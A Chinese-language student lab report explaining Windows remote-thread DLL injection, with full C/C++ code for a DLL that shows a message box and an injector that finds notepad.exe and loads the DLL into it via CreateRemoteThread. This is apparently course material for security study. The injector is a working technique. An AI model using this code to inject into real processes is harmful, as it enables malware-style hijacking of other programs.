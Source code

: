 # DLL注入

## 实验目的

> 1、查文档，研究远程线程方式注入dll的实例代码的实现原理。
>
> 2、运行实例代码，向一个目标程序（比如notepad.exe)注入一个我们自行编写的dll（运行notepad.exe时弹出messagebox），加载运行。
>
> 3、整合进程遍历的程序，使得攻击程序可以自己遍历进程得到目标程序的pid

## 过程

### 远程线程注入基本原理

- 远程线程注入，其主要核心在于一个Windows API函数CreateRemoteThread，通过它可以在另外一个进程中注入一个线程并执行。在提供便利的同时，正是因为如此，使得系统内部出现了安全隐患。常用的注入手段有两种：一种是远程的dll的注入，另一种是远程代码的注入。后者相对起来更加隐蔽，也更难被杀软检测。

- 顾名思义，远程线程注入就是在非本地进程中创建一个新的线程。相比而言，本地创建线程的方法很简单，系统API函数CreateThread可以在本地创建一个新的线程，其函数声明如下：

```c
HANDLE WINAPI CreateThread(
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    SIZE_T dwStackSize,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    DWORD dwCreationFlags,
    PDWORD lpThreadId
    );
```

- 这里最关心的两个参数是lpStartAddress和lpParameter，它们分别代表线程函数的入口和参数，其他参数一般设置为0即可。由于参数的类型是LPVOID，因此传入的参数数据需要用户自己定义，而入口函数地址类型必须是LPTHREAD_START_ROUTINE类型。

- LPTHREAD_START_ROUTINE类型定义为：

```c
typedef DWORD (WINAPI *PTHREAD_START_ROUTINE)(LPVOID lpThreadParameter);
typedef PTHREAD_START_ROUTINE LPTHREAD_START_ROUTINE;
    按照上述定义声明的函数都可以作为线程函数的入口，和CreateThread类似，CreateRemoteThread的声明如下： 
HANDLE WINAPI CreateRemoteThread(
    HANDLE hProcess,
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    SIZE_T dwStackSize,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    DWORD dwCreationFlags,
    LPDWORD lpThreadId
    );
```

- 可见该函数就是比CreateThread多了一个参数用于传递远程进程的打开句柄，而我们知道打开一个进程需要函数OpenProcess，其函数声明为：

```c
HANDLE WINAPI OpenProcess(
    DWORD dwDesiredAccess,
    BOOL bInheritHandle,
    DWORD dwProcessId
    );
```

- 第一个参数表示打开进程所要的访问权限，一般使用PROCESS_ALL_ACCESS来获得所有权限，第二个参数表示进程的继承属性，这里设置为false，最关键的参数是第三个参数——进程的ID。因此在此之前必须获得进程名字和PID的对应关系

### 远程线程DLL注入

- 我们需要知道Win32程序在运行时都会加载一个名为kernel32.dll的文件，而且Windows默认的是同一个系统中dll的文件加载位置是固定的。我们又知道dll里有一系列按序排列的输出函数，因此这些函数在任何进程的地址空间中的位置是固定的.

- 其次，我们需要知道动态加载dll文件需要系统API LoadLibraryA或者LoadLibraryW，由于使用MBCS字符集，这里我们只关心LoadLibraryA，而这个函数正是kernel32.dll的导出函数,因此我们就能在本地进程获得了LoadLibraryA的地址，然后告诉远程进程这就是远程线程入口地址，那么远程线程就会自动的执行LoadLibraryA这个函数。

### 实验过程

- 创建dll项目文件，生成.dll文件

```c++
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <stdio.h>
#include <stdlib.h>
int APIENTRY function(const char* m)
{
    MessageBoxA(NULL, "This is a messagebox from notepad.exe",m, MB_OK);
    return 0;
}
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        function("hook");
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}


```

- 编写代码进行注入dll

```c
#include <stdio.h>
#include <windows.h>
//t_CreateRemoteThread函数
#include <tlhelp32.h>
//#include "fheaders.h"
DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)
{
    // Calculate the number of bytes needed for the DLL's pathname
    DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);
    // Get process handle passing in the process ID
    HANDLE hProcess = OpenProcess(
        PROCESS_QUERY_INFORMATION |
        PROCESS_CREATE_THREAD |
        PROCESS_VM_OPERATION |
        PROCESS_VM_WRITE,
        FALSE, dwProcessId);
    if (hProcess == NULL)
    {
        return(1);
    }
    // Allocate space in the remote process for the pathname
    LPVOID pszLibFileRemote = (PWSTR)VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
    if (pszLibFileRemote == NULL)
    {
        return(1);
        }
    // Copy the DLL's pathname to the remote process address space
    DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
    if (n == 0)
    {

        return(1);
    }
    // Get the real address of LoadLibraryW in Kernel32.dll
    PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
    if (pfnThreadRtn == NULL)
    {

        return(1);
        }
    // Create a remote thread that calls LoadLibraryW(DLLPathname)
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL);
    if (hThread == NULL)
    {

        return(1);
    }
    else
    // Wait for the remote thread to terminate
    WaitForSingleObject(hThread, INFINITE);
    // Free the remote memory that contained the DLL's pathname and close Handles
    if (pszLibFileRemote != NULL)
        VirtualFreeEx(hProcess, pszLibFileRemote, 0, MEM_RELEASE);
    if (hThread != NULL)
        CloseHandle(hThread);
    if (hProcess != NULL)
        CloseHandle(hProcess);
    return(0);
}
int main()
{
    HANDLE hProcessSnap;
    HANDLE hProcess;
    PROCESSENTRY32 pe32;
    DWORD dwPriorityClass;

    // Take a snapshot of all processes in the system.
    hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hProcessSnap == INVALID_HANDLE_VALUE)
    {
    return(FALSE);
    }

    // Set the size of the structure before using it.
    pe32.dwSize = sizeof(PROCESSENTRY32);

    // Retrieve information about the first process,
    // and exit if unsuccessful
    if (!Process32First(hProcessSnap, &pe32))
    {
        CloseHandle(hProcessSnap);          // clean the snapshot object
        return(FALSE);
    }

    // Now walk the snapshot of processes, and
    // display information about each process in turn
    do
    {

    // Retrieve the priority class.
        dwPriorityClass = 0;
        hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pe32.th32ProcessID);
        if (lstrcmp(pe32.szExeFile, TEXT("notepad.exe")) == 0)
        {
            demoCreateRemoteThreadW(L"C:\\Users\\dell\\source\\repos\\Dll3\\Debug\\hook.dll", pe32.th32ProcessID);

        }


    } while (Process32Next(hProcessSnap, &pe32));

    CloseHandle(hProcessSnap);
    getchar();
    return(TRUE);
}
```

- 运行hook.exe,打开notepad.exe，发现打开记事本后有弹窗 弹出
![image](./img/img42.png)
 
